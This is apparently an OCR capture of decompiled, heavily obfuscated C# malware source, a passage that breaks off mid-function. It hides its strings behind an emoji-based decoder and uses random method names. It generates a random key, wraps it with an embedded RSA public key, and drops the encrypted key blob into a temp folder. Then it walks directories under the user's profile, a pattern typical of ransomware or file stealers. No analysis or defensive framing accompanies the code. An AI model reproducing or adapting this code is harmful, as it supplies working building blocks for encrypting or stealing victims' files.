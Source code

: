 ```
        byte[] src = qUipnfARjQBaBGtORUDuGAblGcanrkCStJ(NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83c\ude01ℹ\ufe0f⛵\ud83d\udc9a⏩\ud83d\udc7b\ud83d\udd0e\ud83c\udf7a\ud83d\udc23ℹ\ufe0f⛵\ud83c\udf7b\ud83d\udc58ℹ\ufe0f\ud83d\udcaf\ud83d\ude82⏩ℹ\ufe0f\ud83d\ude82\ud83c\udf46\ud83c\ude01\ud83d\udcc9\ud83d\uddff\ud83d\udeb49\ufe0f\u20e3\ud83d\udc7b\ud83d\udc5e\ud83d\udc5e\ud83d\udc23\ud83c\udf75\ud83d\udd0c\ud83d\udd0c"));
        key = new byte[32];
        iv = new byte[16];
        Buffer.BlockCopy(src, 0, key, 0, 32);
        Buffer.BlockCopy(src, 16, iv, 0, 16);
        using ICryptoTransform cryptoTransform = aes.CreateEncryptor(key, iv);
        return cryptoTransform.TransformFinalBlock(data, 0, data.Length);
    }

    private static byte[] ddAxJkAciSG(byte[] data, string publicKey)
    {
        using RSA rSA = RSA.Create();
        rSA.ImportSubjectPublicKeyInfo(Convert.FromBase64String(publicKey), out var _);
        return rSA.Encrypt(data, RSAEncryptionPadding.OaepSHA256);
    }

    private static string eOUFdPmHAHcqPJQRyafSXBf(int length)
    {
        byte[] array = new byte[length];
        using RNGCryptoServiceProvider rNGCryptoServiceProvider = new RNGCryptoServiceProvider();
        rNGCryptoServiceProvider.GetBytes(array);
        StringBuilder stringBuilder = new StringBuilder(length);
        byte[] array2 = array;
        foreach (byte b in array2)
        {
            stringBuilder.Append("KitakitasuruOPQRSTUVWXYZKitakitasuruopqrstuvwxyz"[b % "KitakitasuruOPQRSTUVWXYZKitakitasuruopqrstuvwxyz".Length]);
        }
        return stringBuilder.ToString();
    }

    private static void eLzUcATejKPOKKMlaYnpnwtwzJclOfwjWFRoaxlxd(string[] dirs, string pubKey)
    {
        ISAAC iSAAC = new ISAAC(OVixtxAlZgODrcwOVgagxeWAk());
        byte[] array = new byte[32];
        for (int i = 0; i < array.Length; i++)
        {
            array[i] = (byte)iSAAC.Next();
        }
        byte[] key;
        byte[] iv;
        byte[] bytes = ddAxJkAciSG(lSJNJosACuzaDIkQoaEIkvSckaEPgrBKmY(array, out key, out iv).Concat(key).Concat(iv).ToArray(), pubKey);
        string text = Path.Combine(Path.GetTempPath(), NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83d\udd01ℹ\ufe0f\ud83d\udd0e\ud83c\udf87\ud83c\ude01⚽\ud83c\udd7f\ufe0f\ud83d\ude8f⏩\ud83c\udf7b\ud83d\uddff\ud83c\udf6f") + Guid.NewGuid());
        Directory.CreateDirectory(text);
        File.WriteAllBytes(Path.Combine(text, NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("9\ufe0f\u20e3\ud83d\udc0f\ud83d\udc5e\ud83c\udf7a\ud83c\ude01\ud83d\udeb9⛵\ud83d\udc88⏩\ud83d\udcc9\ud83c\udf63\ud83d\udd0c")), bytes);
        List<string> list = new List<string>();
        string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.UserProfile);
        foreach (string path in dirs)
        {
            string path2 = Path.Combine(folderPath, path);
            if (!Directory.Exists(path2))
            {
                continue;
            }
```